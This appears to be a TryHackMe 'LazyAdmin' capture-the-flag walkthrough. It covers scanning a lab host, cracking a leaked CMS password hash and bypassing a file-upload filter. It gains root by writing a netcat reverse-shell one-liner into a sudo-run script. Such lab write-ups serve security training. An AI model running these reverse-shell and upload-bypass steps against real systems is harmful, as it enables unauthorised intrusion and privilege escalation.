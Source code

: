 # TryHackMe - LazyAdmin - Linux

- [Room on TryHackme](https://tryhackme.com/room/lazyadmin)

## Nmap

```bash
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.1.0    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-28 15:50 EDT
Nmap scan report for 10.10.1.0
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/28%OT=22%CT=1%CU=37647%PV=Y%DS=4%DC=I%G=Y%TM=62BB608
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:04%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O
OS:3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1305.33 seconds                                                         
```

## Port 80

![image](https://user-images.githubusercontent.com/96747355/176272925-590af02b-7503-4fae-895c-0e68fee1a4d6.png)

### Directory busting

- With gobuster we find a directory `content`    
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.1.0/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt                      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.0/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/28 15:57:42 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 308] [--> http://10.10.1.0/content/]
Progress: 43234 / 87665 (49.32%)                                              [ERROR] 2022/06/28 16:16:20 [!] Get "http://10.10.1.0/STRANGE": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
                                                                               
===============================================================
2022/06/28 16:38:57 Finished
===============================================================
```
![image](https://user-images.githubusercontent.com/96747355/176273862-d0452342-7829-42de-9daf-709a8360adf8.png)  
- It is worth launching gobuster inside content as well. We did find other things there too  
```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.1.0/content/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.0/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/28 17:05:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.10.1.0/content/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.1.0/content/js/]    
/inc                  (Status: 301) [Size: 312] [--> http://10.10.1.0/content/inc/]   
/as                   (Status: 301) [Size: 311] [--> http://10.10.1.0/content/as/]    
/_themes              (Status: 301) [Size: 316] [--> http://10.10.1.0/content/_themes/]
/attachment           (Status: 301) [Size: 319] [--> http://10.10.1.0/content/attachment/]

```
- And we have a login portal http://10.10.1.0/content/as/  
![image](https://user-images.githubusercontent.com/96747355/176288549-21b1f58e-e436-44db-bea8-6ba7fd437029.png)  
- We could search for the admin user and try to use this exploit [here](https://vulners.com/securityvulns/SECURITYVULNS:DOC:25071)
- We find this interesting exploit by googlin about [sweetrice cms](https://www.exploit-db.com/exploits/40718)
- We indeed find a sql file here http://10.10.1.0/content/inc/mysql_backup/
- We can also find a list of files as directory listing is enabled http://10.10.1.0/content/inc/
- With google research we find in the exploits a reference to the plugin directory http://10.10.1.0/content/_plugin/

### The mysql file

- The mysql backup file contains an MD5 hashed password.
- With a look on [crackstation](https://crackstation.net/) we can get it in cleartext  
![image](https://user-images.githubusercontent.com/96747355/176510084-9f773c08-6f4b-42c1-b507-a74f09a879b4.png)  
We can try to login using the username and password found in this file. It works  
![image](https://user-images.githubusercontent.com/96747355/176510576-3ca38a7e-d018-4740-8ae8-27d042b2fcea.png)  
- If we go in the media page there is a file upload vulnerability. According to the code of this [exploit](https://www.exploit-db.com/exploits/40716) if we change our file extension to php5 it will get uploaded.  
- It works, our file is uploaded and then we get our shell  
![image](https://user-images.githubusercontent.com/96747355/176519186-1790925f-223d-4b9c-8465-ecd077564ac3.png)  
![image](https://user-images.githubusercontent.com/96747355/176519300-7f6ae53b-67c3-4fe5-8293-3a3e03618257.png)  
- If we ls to /home we have an `itguy` directory
- We can even freely go to this user directory we have enough permissions
- Let's grab the user flag  
![image](https://user-images.githubusercontent.com/96747355/176520471-3040b87e-e7cb-4d2c-9dcf-a3bbfaf7360a.png)  
- Let's stabilize our shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- In the home folder we have a file called `mysql_login.txt` with a password in it. We can connect to mysql with the password provided `mysql -u rice -p`

## Privilege Escalation

- Here is what we get if we do `sudo -l`
```
sudo -l
Matching Defaults entries or www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
- Here is the content of `backup.pl`

```bash
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- Here is the content of /etc/copy.sh, it looks like a reverse shell
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
- Let's replace it with the same thing but with my kali IP instead `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.22.56 5554 >/tmp/f" > /etc/copy.sh`
- Our change is successful  
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.22.56 5554 >/tmp/f
```
- Let's set our listener to port 5554 `rlwrap nc -lvnp 5554`
- And now let's launch the perl script we are allowed to launch `sudo /usr/bin/perl /home/itguy/backup.pl`
- We get a root shell with having to do a lateral movement!  
![image](https://user-images.githubusercontent.com/96747355/176549169-a2ffd697-f4ca-46b8-a9ef-b2a9a9f54e40.png)  
- Let's grab our root flag  
![image](https://user-images.githubusercontent.com/96747355/176549386-a83b5546-b6bb-43a7-b1a8-81088b67b5ac.png)

